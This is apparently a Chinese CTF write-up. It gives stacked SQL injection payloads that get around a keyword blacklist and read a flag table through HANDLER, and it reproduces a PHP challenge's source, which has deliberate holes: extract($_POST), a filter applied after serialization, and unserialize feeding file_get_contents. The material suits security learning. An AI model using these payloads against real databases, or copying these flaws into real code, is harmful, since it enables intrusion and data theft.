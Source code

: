 ## \[GYCTF2020\] Blacklist

存在过滤语句 `return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`，无法 `select`，可以考虑堆叠注入：

```
-1';show tables;#
-1';show columns from FlagHere;#
```

可以得到列名为 `flag`，然后通过 `HANDLER` 语法读取 flag。

```
-1';handler FlagHere open; handler FlagHere read first; handler close;#
```

## \[安洵杯 2019\] easy_serialize_php

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function =='highlight_file'){
    highlight_file('index.php');
}else if($function =='phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function =='show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```
